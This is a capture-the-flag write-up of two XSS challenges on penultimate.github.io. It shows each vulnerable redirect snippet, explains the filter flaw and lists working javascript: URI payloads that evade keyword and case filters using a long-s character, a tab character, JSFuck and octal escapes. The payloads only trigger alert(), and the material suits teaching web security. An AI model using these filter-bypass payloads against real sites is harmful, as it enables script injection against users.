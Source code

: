 # Simple XSS challenge by Penultimate - #0

## Challenge

https://penultimate.github.io/challenges/XSS/000000-xss

![image](https://user-images.githubusercontent.com/18099289/36552634-3972b758-17f2-11e8-8771-41b83cc5ffcc.png)

```js
var site = "https://penultimate.github.io";
var redirect = document.location + '';
redirect = redirect.split("redirect=")[1];
redirect = decodeURIComponent(redirect);
if (redirect.indexOf(site) > -1 && redirect.split("://")[1].split("/")[0] === site.split("://")[1].split("/")[0]) {
    location.href = redirect;
}
```

## Solutions

```
https://penultimate.github.io/challenges/XSS/000000-xss?redirect=javascript:alert`https://penultimate.github.io/`

https://penultimate.github.io/challenges/XSS/000000-xss?redirect=javascript:alert(1)//https://penultimate.github.io
```

```js
> site = "https://penultimate.github.io";
"https://penultimate.github.io"
> redirect = document.location + '';
"https://penultimate.github.io/challenges/XSS/000000-xss?redirect=javascript:alert`https://penultimate.github.io/`"
> redirect = redirect.split("redirect=")[1];
"javascript:alert`https://penultimate.github.io/`"
> redirect = decodeURIComponent(redirect);
"javascript:alert`https://penultimate.github.io/`"
> redirect.indexOf(site) > -1 && redirect.split("://")[1].split("/")[0]
"penultimate.github.io"
> site.split("://")[1].split("/")[0]
"penultimate.github.io"
> location.href = redirect;
"javascript:alert`https://penultimate.github.io/`"
```

The issue lies in the if statement `if (redirect.indexOf(site) > -1 && redirect.split("://")[1].split("/")[0] === site.split("://")[1].split("/")[0])`. The statement simply requires the redirect value to contain `https://penultimate.github.io` so we can execute `javascript:alert(1)` first, add the `https://penultimate.github.io` URL as a suffix, and comment out the URL using JavaScript's comment symbol `//`.

# Simple XSS challenge by Penultimate - #1

## Challenge

https://penultimate.github.io/challenges/XSS/000001-xss

![image](https://user-images.githubusercontent.com/18099289/36642338-0d094ca4-1a36-11e8-9921-6867bad9b129.png)

```js
function preventXSS(unsafe) {
    // Super secure XSS filter
    //            - Larry Lau
    return unsafe
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/%/g, "ribbit")
        .replace(/alert/gi, "frog")
        .replace(/confirm/gi, "frog")
        .replace(/prompt/gi, "frog")
        .replace(/javascript/gi, "frog");
}
var url = document.location + '';
var param = url.split("param=")[1];
param = preventXSS(decodeURIComponent(param)).toUpperCase();
if (param !== 'UNDEFINED' && param !== "") {
    location.href = param;
}
```

## Solutions

To bypass the "javascript" keyword filter (`.replace(/javascript/gi, "frog");`), one can replace the "s" in javascript with `ſ`. The `.toUpperCase()` function neutralises the letter and outputs `S`.

```js
> "ſ".toUpperCase()
"S"
```

The next issue people faced was executing and `alert()` function after it had been passed to the `.toUpperCase()` function -- `ALERT()` is not a valid function. One way of achieving this was by using [JSFuck](http://www.jsfuck.com/), since uppercase `[]()!+` does not affect the code and you can execute the alert function using these symbols.

```
https://penultimate.github.io/challenges/XSS/000001-xss?param=javaſcript:[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()

https://penultimate.github.io/challenges/XSS/000001-xss?param=javas%09cript:[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

## Interesting and unexpected solutions

Baptiste MOINE ([@Creased_](https://twitter.com/Creased_)) and DrStache ([@DrStache_](https://twitter.com/DrStache_)) submitted interesting 90-character solutions.

```js
javaſcript:CSS['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164()')()

javaſcript:URL['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164()')()
```

[@filedescriptor](https://twitter.com/filedescriptor) submitted the following 89-character solution (Please note, this can be made shorter):

```js
javaſcript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

DrStache ([@DrStache_](https://twitter.com/DrStache_)) also submitted an beautiful solution where they used variables to reduce the size of the JSFuck payload.

```js
javaſcript:Ð=[],Ř=+!+Ð,ˍ=Ř+Ř+Ř,Š=!!Ð+Ð,Ť=!Ð+Ð,Ǎ=(!Ð+{})[Ř+[+Ð]],Č=(Ð+{})[Ř],Ȟ=Š[Ř],Ě=Š[+Ð],_=Ť[ˍ]+Č+Ȟ+Ě,ǰ=Ð[_]+Ð,š=Ð[Ð]+Ð,Ð[_][Ǎ+Č+(š)[Ř]+Ť[ˍ]+Ě+Ȟ+(š)[+Ð]+Ǎ+Ě+Č+Ȟ](Ť[Ř]+Ť[Ř+Ř]+Š[ˍ]+Ȟ+Ě+ǰ[Ř+[ˍ]]+ǰ[Ř+[ˍ+Ř]])()
```

[@z33_5h4n](https://twitter.com/z33_5h4n) used [katakana.js](https://github.com/aemkei/katakana.js).

```js
javascrıpt:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```
